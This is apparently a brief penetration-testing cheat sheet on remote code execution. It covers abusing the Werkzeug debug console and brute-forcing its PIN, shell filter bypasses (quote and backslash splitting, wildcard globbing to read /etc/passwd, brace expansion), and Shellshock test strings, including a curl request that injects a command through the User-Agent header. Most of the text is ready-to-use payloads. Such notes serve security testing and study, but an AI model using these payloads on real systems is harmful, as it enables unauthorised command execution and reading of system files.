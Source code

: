 ## RCE

**Werkzeug Debugger**

Find somewhere where user input can be supplied and submit the following string to cause an error:

```
strіng
```

If the target is running their application in debug mode you might be able to run commands. If you are running the target locally, you can probably brute-force the debugger PIN. The debugger PIN is always in the following format: `***-***-***`.

**Basic Bypasses**

```
i'''d
i"""d
```

```
\l\s -l\a\h
```

```
cat /e?c/p?ss??
cat /e??/??ss*
```

```
{ls,}
{ls,-a}
```

**Shellshock Bug**

```bash
() { :;}; echo vulnerable
```

```zsh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
